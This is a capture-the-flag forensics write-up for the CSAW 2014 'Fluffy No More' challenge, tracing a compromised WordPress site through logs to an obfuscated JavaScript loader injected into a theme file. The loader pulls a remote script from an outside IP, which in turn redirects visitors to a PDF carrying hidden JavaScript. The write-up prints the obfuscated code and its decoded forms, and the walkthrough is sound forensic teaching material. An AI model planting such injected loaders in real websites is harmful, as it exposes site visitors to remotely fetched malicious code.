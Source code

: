# CSAW CTF 2014: Fluffy No More

**Category:** Forensics
**Points:** 300
**Description:**

> OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious "Forgotten Freaks" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
>
> Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of its database and configuration. Figure out what is going on!
>
> Written by brad_anton
>
> [CSAW2014-FluffyNoMore-v0.1.tar.bz2](CSAW2014-FluffyNoMore-v0.1.tar.bz2)

## Write-up

As its extension suggests, [the provided `CSAW2014-FluffyNoMore-v0.1.tar.bz2` file](CSAW2014-FluffyNoMore-v0.1.tar.bz2) is a bzip2-compressed tarball:

```bash
$ file CSAW2014-FluffyNoMore-v0.1.tar.bz2
CSAW2014-FluffyNoMore-v0.1.tar.bz2: bzip2 compressed data, block size = 900k
```

Let’s extract it:

```bash
$ tar xjfv CSAW2014-FluffyNoMore-v0.1.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/
x CSAW2014-FluffyNoMore-v0.1/etc_directory.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/logs.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/mysql_backup.sql.bz2
x CSAW2014-FluffyNoMore-v0.1/webroot.tar.bz2
```

Oh, it contains more tarballs! Let’s extract those as well:

```bash
$ cd CSAW2014-FluffyNoMore-v0.1

$ for file in *.tar.bz2; do mkdir -p "${file}-extracted"; tar --directory "${file}-extracted" -xjf "${file}"; done
```

Viewing `logs.tar.bz2-extracted/var/log/auth.log` reveals an interesting entry:

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Someone with root access to the server edited the web-exposed `/wp-content/themes/twentythirteen/js/html5.js` file. Reviewing the file’s contents (`webroot.tar.bz2-extracted/var/www/html/wp-content/themes/twentythirteen/js/html5.js`), it’s clear that some malicious JavaScript code was inserted.

```js
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

The above script is equivalent to the following:

```js
document.write("<script src='http://128.238.66.100/analytics.js'><\/script>");
```

Let’s download [the `analytics.js` file](analytics.js) so we can take a look at it:

```bash
$ wget http://128.238.66.100/analytics.js
```

The file consists of minified code, most of which is legitimate. A small part of it stands out because it’s obfuscated, though:

```js
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0x91fe%3D%5B%22%5Cx68%5Cx74%5Cx74%5Cx70%5Cx3A%5Cx2F%5Cx2F%5Cx31%5Cx32%5Cx38%5Cx2E%5Cx32%5Cx33%5Cx38%5Cx2E%5Cx36%5Cx36%5Cx2E%5Cx31%5Cx30%5Cx30%5Cx2F%5Cx61%5Cx6E%5Cx6E%5Cx6F%5Cx75%5Cx6E%5Cx63%5Cx65%5Cx6D%5Cx65%5Cx6E%5Cx74%5Cx2E%5Cx70%5Cx64%5Cx66%22%2C%22%5Cx5F%5Cx73%5Cx65%5Cx6C%5Cx66%22%2C%22%5Cx6F%5Cx70%5Cx65%5Cx6E%22%5D%3Bwindow%5B%5f0x91fe%5B2%5D%5D%28%5f0x91fe%5B0%5D%2C%5f0x91fe%5B1%5D%29%3B):

```js
var _0x91fe=["http://128.238.66.100/announcement.pdf","_self","open"];
window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

…which is equivalent to:

```js
window.open('http://128.238.66.100/announcement.pdf', '_self');
```

Let’s download [that `announcement.pdf` file](announcement.pdf):

```bash
$ wget http://128.238.66.100/announcement.pdf
```

Opening the PDF file in [PDF Stream Dumper](http://sandsprite.com/blogs/index.php?uid=7&pid=57) reveals some hidden JavaScript code:

![](pdf-stream-dumper.png)

```js
var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0xee0b%3D%5B%22%5Cx59%5Cx4F%5Cx55%5Cx20%5Cx44%5Cx49%5Cx44%5Cx20%5Cx49%5Cx54%5Cx21%5Cx20%5Cx43%5Cx4F%5Cx4E%5Cx47%5Cx52%5Cx41%5Cx54%5Cx53%5Cx21%5Cx20%5Cx66%5Cx77%5Cx69%5Cx77%5Cx2C%5Cx20%5Cx6A%5Cx61%5Cx76%5Cx61%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx20%5Cx6F%5Cx62%5Cx66%5Cx75%5Cx73%5Cx63%5Cx61%5Cx74%5Cx69%5Cx6F%5Cx6E%5Cx20%5Cx69%5Cx73%5Cx20%5Cx73%5Cx6F%5Cx66%5Cx61%5Cx20%5Cx6B%5Cx69%5Cx6E%5Cx67%5Cx20%5Cx64%5Cx75%5Cx6D%5Cx62%5Cx20%5Cx20%5Cx3A%5Cx29%5Cx20%5Cx6B%5Cx65%5Cx79%5Cx7B%5Cx54%5Cx68%5Cx6F%5Cx73%5Cx65%5Cx20%5Cx46%5Cx6C%5Cx75%5Cx66%5Cx66%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6E%5Cx6E%5Cx69%5Cx65%5Cx73%5Cx20%5Cx4D%5Cx61%5Cx6B%5Cx65%5Cx20%5Cx54%5Cx75%5Cx6D%5Cx6D%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6D%5Cx70%5Cx79%5Cx7D%22%5D%3Bvar%20y%3D%5f0xee0b%5B0%5D%3B):

```js
var _0xee0b=["YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}"];
var y=_0xee0b[0];
```

The flag is `Those Fluffy Bunnies Make Tummy Bumpy`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/09/csaw14-fluffy-no-more-writeup.html>
* <http://sugarstack.io/csaw2014-fluffy-no-more/>
